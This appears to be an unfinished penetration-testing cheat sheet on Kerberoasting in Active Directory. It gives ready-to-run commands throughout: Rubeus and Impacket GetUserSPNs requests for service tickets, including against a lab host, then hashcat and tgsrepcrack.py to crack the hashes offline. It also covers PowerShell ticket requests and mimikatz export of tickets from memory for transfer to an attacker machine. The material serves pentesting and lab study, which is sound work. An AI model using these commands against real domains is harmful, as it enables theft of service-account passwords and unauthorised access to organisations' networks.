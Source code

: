 # Kerberoasting

#### STILL EDITING

#### Kerberoasting

> **Kerberoasting** allows a user to request a service ticket for any service with a registered **SPN** then use that ticket to crack the service password.

* **Rubeus** (local):

```powershell
.\Rubeus.exe kerberoast
```

* **Impacket** (remote):

```bash
GetUserSPNs.py <Domain>/<username>:<password> -dc-ip <IP> -request
```

```bash
GetUserSPNs.py -request -dc-ip 10.10.11.129 search.htb/hope.sharp -outputfile web_svc.hash
```

* Cracking Kerberos 5 etype 23 TGS-REP:

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

```bash
hashcat -m 13100 web_svc.hash /usr/share/wordlists/rockyou.txt 
```

### Service Tickets

Add System.IdenityModel namespace:

```powershell
Add-Type -AssemblyName System.IdentityModel
```

Request the service ticket:

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN'
```

Display all cached service tickets

```powershell
klist
```

Now with the service ticket of the IIS SPN created and saved to memory we can download it from memory with mimikatz:

```
kerberos::list /export
```

This creates file ending with `.kirbi` on disk. According to the Kerberos protocol service ticket is encrypted using the SPN password hash. We can transfer this `.kirbi` file to out attacker host.

If we can perform Kerberoasting we can get the password hash of the SPN and from that we can crack the plaintext password of the service account.

Let's install kerberoast:

```
sudo apt install kerberoast
```

Now with the kerberoast package installed we can run `tgsrepcrack.py` to crack the password of the service account:

```shell
python tgsrepcrack.py wordlist.txt filename.kirbi
```
